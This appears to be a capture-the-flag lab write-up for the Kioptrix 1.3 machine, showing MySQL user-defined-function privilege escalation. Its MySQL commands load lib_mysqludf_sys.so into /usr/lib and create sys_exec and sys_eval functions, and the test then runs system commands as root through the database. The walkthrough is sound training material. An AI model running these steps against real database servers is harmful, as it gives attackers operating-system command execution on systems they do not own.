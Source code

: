 ```console
mysql -u root
use mysql;
create table hack(line blob);
insert into hack values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from hack into dumpfile '/usr/lib/lib_mysqludf_sys.so';
create function sys_exec returns some integer soname'lib_mysqludf_sys.so';
```

In the article we find a reference to:

`https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
`

and fro there I do a git clone:

`git clone https://github.com/mysqludf/lib_mysqludf_sys`

And we get the files:

`
122 Mar 21 09:40 Makefile
1647 Mar 21 09:40 lib_mysqludf_sys.sql
12896 Mar 21 09:40 lib_mysqludf_sys.so
9934 Mar 21 09:40 lib_mysqludf_sys.html
Mar 21 09:40 lib_mysqludf_sys.c
1544 Mar 21 09:40 install.sh
`
 We note that the file from git:
 
 `12896 Mar 21 09:40 lib_mysqludf_sys.so`
 
 has the same size of the file in the victim system:
 
 ```-rw-rw-rw- 1 root root 12896 2012-02-04 10:08 /usr/lib/lib_mysqludf_sys.so```
 
and not only that... also the same sum:

`
sum /usr/lib/lib_mysqludf_sys.so
35117    13
`

`
tamosma@kali:~/hck-exercise/kioptrix-1.3/lib_mysqludf_sys$ sum lib_mysqludf_sys.so
35117    13
`


From the above article we need to fix the sys_exec function to:

`CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so'`

as we had a look from:

`lib_mysqludf_sys.sql`


```console
Test function:
select sys_exec('id >/tmp/out; chown user:user /tmp/out');
quit
cat /tmp/out
```

